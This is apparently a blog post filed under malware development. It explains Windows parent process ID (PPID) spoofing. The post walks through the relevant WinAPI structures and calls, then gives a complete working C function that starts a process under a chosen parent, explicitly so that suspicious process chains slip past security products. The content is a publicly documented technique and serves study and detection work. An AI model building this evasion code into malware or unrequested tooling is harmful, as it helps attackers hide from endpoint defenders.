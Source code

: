 ```yaml
---
layout: post
title: "Spoofing Parent Process ID (PPID)"
date: 2024-07-29 09:49:00 +0000
tags: [Malware Development]
categories: [Malware Development]
---
```


# Spoofing Parent Process ID (PPID)


Parent Process ID (PPID) spoofing is a technique used to manipulate the relationship between a child process and its parent process. This makes it appear as though the child process was initiated by a different, legitimate process.

This can be achieved by modifying the parent process ID, making it appear as though the process originated from a trusted source. For example, an Excel sheet spawning a \`cmd.exe\` process would typically raise suspicions with security solutions, but \`svchost.exe\` spawning a \`cmd.exe\` would not.

Let’s explore how to spoof the Parent Process ID (PPID) of a process.

Creating a process
-------------------

To spoof a process PPID, we first need to create a process using the [CreateProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw) WinAPI with the `EXTENDED_STARTUPINFO_PRESENT` flag set in the `dwCreationFlags` parameter. According to Microsoft documentation, this requires a [STARTUPINFOEX](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexw) structure in the `lpStartupInfo` parameter.

![Extended_startup](png_spoofing_parent_process/startupinfo_present.png)

STARTUPINFOEX structure
-----------------------

The `STARTUPINFOEX` structure specifies the window station, desktop, standard handles, and attributes for a new process. Since it is responsible for defining attributes for a new process, it will be particularly useful for our purpose.

The structure `STARTUPINFOEX` is shown below.

```c++
typedef struct _STARTUPINFOEXW {
    STARTUPINFOW StartupInfo;
    LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXW, *LPSTARTUPINFOEXW;
```


*   **Startupinfo**: same as Startupinfo structure which was used to create a normal process.
*   **lpAttributeList**: An attribute list. This list is created by the [InitializeProcThreadAttributeList](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) function.

As the `InitializeProcThreadAttributeList` function creates an attribute list for the process in inside `STARTUPINFOEX` structure. we have to take a look at it.

InitializeProcThreadAttributeList
---------------------------------

[`InitializeProcThreadAttributeList`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) is responsible for Initializing the specified list of attributes for process and thread creation.

The `InitializeProcThreadAttributeList` function is shown below:

```c
BOOL InitializeProcThreadAttributeList(
  [out, optional] LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwAttributeCount,
                  DWORD                        dwFlags,
  [in, out]       PSIZE_T                      lpSize
);
```


parameters:

*   **lpAttributeList**: A pointer to the attribute list.
*   **dwAttributeCount**: The number of attributes to set.
*   **dwFlags**: This parameter is reserved and must be zero.
*   **lpSize**: This will return the size required to set the attributes.

The `dwAttributeCount`will be set to 1 since only one attribute is needed.

According to the microsoft the initial call to this function will return an error by design which will return the size required to allocate enough space for the data in the `lpAttributelist` buffer and call the function again to initialize the buffer. next the [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)function will be responsible for adding attributes to the list.

![Initialize_procthread](png_spoofing_parent_process/remarks_initialize_proc_thread.png)


UpdateProcThreadAttribute
-------------------------

The [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) function is shown below

```c
BOOL UpdateProcThreadAttribute(
  [in, out]       LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwFlags,
  [in]            DWORD_PTR                    Attribute,
  [in]            PVOID                        lpValue,
  [in]            SIZE_T                       cbSize,
  [out, optional] PVOID                        lpPreviousValue,
  [in, optional]  PSIZE_T                      lpReturnSize
);
```


parameters:

*   **lpAttributeList**: A pointer to the attribute list initialized by `InitializeProcThreadAttributeList`. This list contains attributes to be updated.
*   **dwFlags**: Reserved; must be zero.
*   **Attribute**: The attribute to update. For our spoofing of PPID the `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` is required.

*   **lpValue**: A pointer to the value for the attribute being updated. in our case of PPID spoofing it becomes the handle of the parent process.
*   **cbSize**: The size of the value pointed to by `lpValue`, in bytes.
*   **lpPreviousValue**: Optional. A pointer to receive the previous value of the attribute, if needed.
*   **lpReturnSize**: Optional. A pointer to receive the size of the previous attribute value returned in `lpPreviousValue`.

LOGIC
-----

1.  call `InitializeProcThreadAttributeList` to set the number of attributes to be set and allocate enough space for the attributelist.
2.  call `UpdateProcThreadAttribute` with `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` to initialize the attribute.
3.  call `CreateProcessW` with the `EXTENDED_STARTUPINFO_PRESENT` flag and utilize the `STARTUPINFOEXW` structure that has been initialized using `InitializeProcThreadAttributeList` and updated using `UpdateProcThreadAttribute`

ParentPIDSpoofing function
--------------------------

`ParentPIDSpoofing` is a function that creates process with Spoofed PPID.

parameters:

*   **hprocess**: handle of the parent process whose PID is to be spoofed.
*   **newprocessname**: name of the process to create.
*   **hnewprocess**: A pointer to the handle which receives handle to the newly created process.
*   **dwnewPID**: A pointer to the PID which receives PID of the newly created process.

```C

BOOL ParentPIDSpoofing(handle hprocess, LPWSTR newprocessname, HANDLE* hnewprocess, DWORD *dwnewPID) {
 STARTUPINFOEXW SI = { 0 };
 PROCESS_INFORMATION PI = { 0 };
 SI.StartupInfo.cb = sizeof(STARTUPINFOW);
 SIZE_T Attributelist = 0;
 SI.StartupInfo.cb = sizeof(STARTUPINFOEXW);
 InitializeProcThreadAttributeList(NULL, 1, 0, &Attributelist);
 SI.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, Attributelist);
 if (SI.lpAttributeList == NULL) {
  printf("Heap alloc failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!InitializeProcThreadAttributeList(SI.lpAttributeList, 1, 0, &Attributelist)) {
  printf("InitializeProcThreadAttirbuteList failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!UpdateProcThreadAttribute(SI.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hprocess, sizeof(hprocess), NULL, NULL)) {
  printf("UpdateProcThreadAttirbute failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!CreateProcessW(NULL, newprocessname, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &SI.StartupInfo, &PI)) {
  printf("The CreateprocessW failed with error no %x\n", GetLastError());
  return FALSE;
 }
 *hnewprocess = PI.hProcess;
 *dwnewPID = PI.dwProcessId;
 return TRUE;
}
```


Execution
---------

Create the child process `Notepad.exe` with the parent process being `svchost.exe`, which has a PID of 4312.

`NOTE: svchost.exe is running with normal privileges.`

`Notepad.exe` appears to be spawned by `svchost.exe` .